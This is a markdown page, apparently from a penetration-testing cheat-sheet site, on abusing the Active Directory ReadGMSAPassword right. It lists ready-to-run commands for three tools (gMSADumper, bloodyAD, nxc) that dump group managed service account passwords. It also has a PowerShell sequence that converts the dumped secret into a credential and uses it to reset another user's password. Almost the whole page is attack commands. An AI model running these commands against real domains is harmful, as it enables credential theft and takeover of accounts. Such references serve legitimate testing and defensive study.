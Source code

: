 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["Credential Dumping", "ReadGMSApassword", "Gmsadumper", "Active Directory", "Windows"]
---
```


### Abuse #1: Read GMSAPassword (From Linux)

{{< tab set1 tab1 active >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 gMSADumper.py -u <USER> -p '<PASSWORD>' -l <DC> -d <DOMAIN>
```

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> get object <TARGET_OBJECT> --attr msDS-ManagedPassword
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
nxc ldap -u <USER> -p '<PASSWORD>' -d <DOMAIN> <TARGET> --gmsa
```

{{< /tabcontent >}}

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
$gmsa = Get-ADServiceAccount -Identity <TARGET_NAME> -Properties 'msDS-ManagedPassword'
```

```console
$mp = $gmsa.'msDS-ManagedPassword'
```

```console
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console
$cred = New-Object System.Management.Automation.PSCredential <TARGET_NAME>, $SecPass
```

```console
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity <ANOTHER_TARGET_NAME> -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<PASSWORD>' -force)} -Credential $cred
```

{{< /tabcontent >}}
